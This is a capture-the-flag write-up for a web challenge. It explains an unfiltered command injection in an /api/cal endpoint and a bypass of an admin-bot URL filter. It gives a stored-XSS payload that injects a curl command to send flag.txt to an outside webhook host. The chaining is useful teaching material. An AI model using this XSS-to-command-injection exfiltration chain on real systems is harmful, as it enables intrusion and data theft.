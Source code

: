 # Description

Does the CLI listen to magic?

http://chal.competitivecyber.club:13336

Flag format: CACI{.*}

# Solution

We are given 2 source files: one for admin bot `admin.js`, which visits a page submitted by the user (only on localhost:1337)
and another app which runs on 1337 port `app.py`. If we look through the source code of admin bot, it sets a secret cookie
for localhost, which is required on the `/api/cal` endpoint in `app.py`. Why is the `/api/cal` endpoint important? Because it
contains command injection

```python
return '{"cal": "'+subprocess.getoutput("cal "+modifier)+'"}'
```

The app applies no filter to the modifier, which is controlled by user. So
if we are able to make call to `/api/cal?modifier=;cat flag.txt`, we can read the flag. However, the call to
`/api/cal` is filtered on the admin bot.

```javascript
if (url.includes("cal") || url.includes("%")) {
    res.send('Error: "cal" is not allowed in the URL');
    return;
}
```

The solution is to use the `/api/stats` endpoint to submit XSS, which when visited will trigger request to `/api/cal` by the admin
browser (and we bypass the filter). Let's create a payload:

```json
{
    "username":"<script>fetch('http://127.0.0.1:1337/api/cal?modifier=;curl https://webhook.site/434bdc29-014d-4da6-bfb7-f6685e89b90d -d $(cat flag.txt)')</script>",

    "high_score":"1234"
}
```

When this payload is executed, it fetches the `/api/cal` and does the command injection to make another request to our domain with the contents of the flag.txt file. If we send this to `/api/stats`, we get back the identifier, which is then passed to the admin bot to visit. After he visits the URL, XSS gets triggered and we get the flag. 